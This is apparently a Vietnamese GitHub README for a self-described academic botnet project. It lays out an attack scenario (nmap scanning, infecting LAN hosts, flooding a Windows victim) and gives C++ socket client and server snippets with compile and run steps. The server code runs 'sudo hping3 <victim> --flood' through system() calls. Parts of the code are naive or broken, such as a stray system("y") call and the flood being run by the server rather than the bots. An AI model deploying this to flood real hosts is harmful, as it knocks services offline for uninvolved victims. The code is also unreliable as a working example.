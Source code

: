 # Dự án xây dựng botnet dựa trên giao thức TCP/IP
- Mục tiêu của dự án là lây nhiễm botnet Client trên nhiều host (thiết bị người dùng đầu cuối) sử dụng IPv4 (AF_INET).
- Sử dụng giao thức TCP/IP, biên dịch và thực hiện trên hệ điều hành ubuntu (hoặc core linux).
- **CẢNH BÁO:** Đây chỉ là dự án mang tính chất học thuật, nghiên cứu và đưa ra hướng giải quyết và khắc phục botnet trong hệ thống mạng. Tuyệt đối không áp dụng lên hệ thống mạng nếu không được đồng ý hoặc chấp nhận. *Hành vi tấn công mạng được xem là vi phạm pháp luật*.

## Cấu hình - Kịch bản tấn công

**Cấu hình thiết bị**
|STT|Thiết bị - Hệ điều hành|Địa chỉ IPv4|
|:-|:-|:-|
|1|Attacker - Ubuntu|VMnet0 (192.168.1.0/24)|
|2|Botnet - Ubuntu|VMnet2 (192.168.0.0/24)|
|3|Victim - Windows 7|VMnet2 (192.168.0.0/24)|

**Kịch bản tấn công:**
+ Attacker sẽ tiến hành tham dò mạng nội bộ (nmap) để xác định các host có khả năng lây nhiễm botnet.
+ Sau đó, attacker sẽ lây nhiễm botnet cho các máy trong mạng LAN (user, server tải file trên mạng có chứa botnet Client). 
+ Lúc này, attacker sẽ điều khiển các client để tập trung vào tấn công flood đến host nạn nhân.
+ ***Kết quả:*** Làm cho các dịch vụ trên host bị tấn công trì trệ, không thể hoạt động.


## Botnet Client (botnetClient.cpp)

**Thiết lập địa chỉ server**

```
sockaddr_in serverAddr;
serverAddr.sin_family = AF_INET;
serverAddr.sin_port = htons(45444);
inet_pton(AF_INET, "127.0.0.1", &serverAddr.sin_addr);
```

|Thuộc tính|Giải thích|
|:-|:-|
|`sockaddr_in`|Lưu trữ thông tin server|
|`sin_family`|Chỉ định loại địa chỉ|
|`sin_port`|Cổng kết nối Client - Server|
|`htons()`|Hàm băm dạng địa chỉ mạng|
|`inet_pton`|Chuyển đổi chuỗi địa chỉ mạng sang dạng nhị phân|

**Kết nối tới Server**

```
if (connect(clientSocket, (struct sockaddr*)&serverAddr, sizeof(serverAddr)) < 0)
{
    cerr << "Connection failed!" << endl;
    return -1;
}
```
|Thuộc tính|Giải thích|
|:-|:-|
|`connect()`|Kết nối đến socket của client với địa chỉ của server|

**Gửi dữ liệu đến Server**
```
string request = "terminal";
send(clientSocket, request.c_str(), request.size(), 0);
```
Gửi dữ liệu đến Server, khi kết nối thành công, client sẽ mở Terminal.

## Botnet Server (botnetServer.cpp)

```
serverAddr.sin_port = htons(PORT);
serverAddr.sin_addr.s_addr = INADDR_ANY;
```
Số cổng của Server kết nối đến Client `htons(PORT)`.
Thuộc tính `INADDR_ANY` chấp nhận kết nối từ bất kỳ địa chỉ IP nào.

**Gán địa chỉ cho socket**
```
if (bind(serverSocket, (struct sockaddr*)&serverAddr, sizeof(serverAddr)) < 0)
{
    cerr << "Bind failed!" << endl;
    return -1;
}
```
Gán địa chỉ IP và cổng vừa thiết lập cho socket.

**Lắng nghe kết nối**
```
listen(serverSocket, 10);
``` 
Cho phép tối đa 10 kết nối trong hàng đợi.

**Nhận dữ liệu từ client**
```
int bytesReceived = recv(clientSocket, buffer, 4096, 0);
```
Hàm `recv()` đọc dữ liệu từ client gửi đến và lưu vào `buffer`.

## Xử lý yêu cầu từ Client - Thực hiện quá trình 
```
if (request == "terminal") 
{
    cout << "Opening terminal..." << endl;
    system("gnome-terminal");
    system("sudo apt install hping3");
    system("y");
    system("sudo hping3 <IPv4_of_victim> --flood");
}
```
Nếu Server nhận được phản hồi từ Client gửi đến đáp ứng điều kiện yêu cầu "request". Server tiến hành mở Terminal, Cài đặt [HPING3](https://www.kali.org/tools/hping3/) để tiến hành ping flood.

## Biên dịch (Compile)
Cài đặt trình biên dịch để sử dụng thư viện:
`sudo apt install g++`

**Server:** `g++ botnetServer.cpp -o botnetServer`

**Client:** `g++ botnetClient.cpp -o botnetClient`

## Khởi chạy (Run)

**Server:** `./botnetServer`

**Client:** `./botnetClient`

## Kiểm thử kịch bản, chương trình tấn công botnet

**Host trước khi bị tấn công**

![](1.png)

**Host trong quá trình bị tấn công**

![](2.png)

![](3.png)
